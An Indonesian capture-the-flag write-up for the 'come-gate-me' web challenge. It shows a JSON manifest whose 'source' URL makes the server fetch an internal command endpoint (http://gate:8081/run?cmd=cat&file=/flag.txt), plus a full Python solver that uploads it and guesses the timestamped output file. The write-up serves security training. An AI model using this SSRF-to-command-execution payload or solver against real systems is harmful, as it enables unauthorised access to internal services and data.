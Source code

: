 ## come-gate-me
**Difficulty:** Easy
**Author:** xixixiix
**URL:** [http://ctf.noctralupra.space:10313/](http://ctf.noctralupra.space:10313/)

### Description
ini flagnya dynamic, jadi ya testing aja.. ga ada brute force apalgi jadi dukun.. logika aja..

### Solution
![alt text](image.png)

Ketika mengakses website, diberikan tampilan untuk mengupload suatu file dengan tambahan hint bahwa file akan disimpan dengan nama yang unik dan petunjuk akan muncul di tempat yang tidak terduga. Diketahui bahwa file yang diterima oleh website adalah file json.

```json
{
  "test": "hello"
}
```

![alt text](image-1.png)

Ketika saya mencoba melakukan upload dengan payload tersebut, web menampilkan error `Bad manifest. Expect: {"source": "http://...", "ext": "txt"}`. Dengan begitu, saya tau bahwa ini adalah model dari tantangan SSRF yang melakukan fetch dari url yang di-upload oleh user melalui file json.

![alt text](image-3.png)

Untuk menggali informasi lebih lanjut, saya mengakses robots.txt dan ditemukan beberapa endpoint menarik. 

![alt text](image-2.png)

Satu - satunya endpoint yang dapat diakses adalah /gate-hint.txt dan memberikan bahwa terdapat service internal dengan host `gate` pada port `8081` yang bisa melakukan RCE melalui `run?cmd=&file=/flag.txt`

```json
{
  "source": "http://gate:8081/run?cmd=cat&file=/flag.txt",
  "ext": "txt"
}
```

![alt text](image-4.png)

Dengan begitu, payload pada file json yang akan diupload adalah seperti tersebut. Ketika diupload, web memberi response bahwa harus menebak output fetch dari payload dan hasil fetch tersebut dapat diakses dari endpoint /get.php?name=[namafile.txt]

![alt text](image-5.png)

Pada source ditemukan hint dari comment yang mengatakan bahwa file disimpan dengan formar `cg_YYYYMMDD_HHMM.ext`

Karena hal ini harus dilakukan secara presisi dengan timing melakukan upload file json maka saya membuat solver seperti berikut ini:

```python
import requests
import json
from datetime import datetime, timezone
import time

url = "http://ctf.noctralupra.space:10313"
upload = "/manifest_upload.php"
download = "/get.php"

ssrf = "http://gate:8081/run?cmd=cat&file=/flag.txt"
EXT = "txt"

def utc_minute_stamp(dt=None):
    if dt is None:
        dt = datetime.now(timezone.utc)
    return dt.strftime("%Y%m%d_%H%M")

def build_filename(utc_min, ext):
    return f"cg_{utc_min}.{ext}"

def upload_manifest():
    manifest = {"source": ssrf, "ext": EXT}
    manifest_str = json.dumps(manifest, separators=(",", ":"))

    t0 = datetime.now(timezone.utc)
    utc_min = utc_minute_stamp(t0)

    files = {"manifest": ("test.json", manifest_str, "application/json")}

    r = requests.post(
        url + upload,
        files=files,
        headers={
            "Origin": "null",
            "Upgrade-Insecure-Requests": "1",
        },
        timeout=10,
    )
    r.raise_for_status()
    return r.text, utc_min

def try_download(utc_min_guess, ext):
    name = build_filename(utc_min_guess, ext)
    params = {"name": name}

    r = requests.get(
        url + download,
        params=params,
        headers={"Upgrade-Insecure-Requests": "1"},
        timeout=10,
    )
    if r.status_code == 200 and r.content:
        return True, r.content, name
    return False, r.text, name

def main():
    txt, utc_min = upload_manifest()
    ok, body, fname = try_download(utc_min, EXT)
    print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if not ok:
        next_min = utc_minute_stamp(datetime.now(timezone.utc))
        if next_min != utc_min:
            print("Minute rolled over; trying current minute.")
            ok, body, fname = try_download(next_min, EXT)
            print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if not ok:
        time.sleep(1)
        cur_min = utc_minute_stamp(datetime.now(timezone.utc))
        ok, body, fname = try_download(cur_min, EXT)
        print(f"download: {fname} : {'OK' if ok else 'FAIL'}")

    if ok:
        try:
            print(body.decode(errors="replace"))
        except Exception:
            print(body)
    else:
        print("failed.")

if __name__ == "__main__":
    main()
```

Dengan begitu dapat dilakukan otomasi untuk: upload manifest (SSRF), tebak nama file berdasarkan waktu, dan download. Dan output kode berhasil menampilkan flagnya.

![alt text](image-6.png)

### Flag
NCLPS1{ssrf_to_gate_then_predict_the_filename}
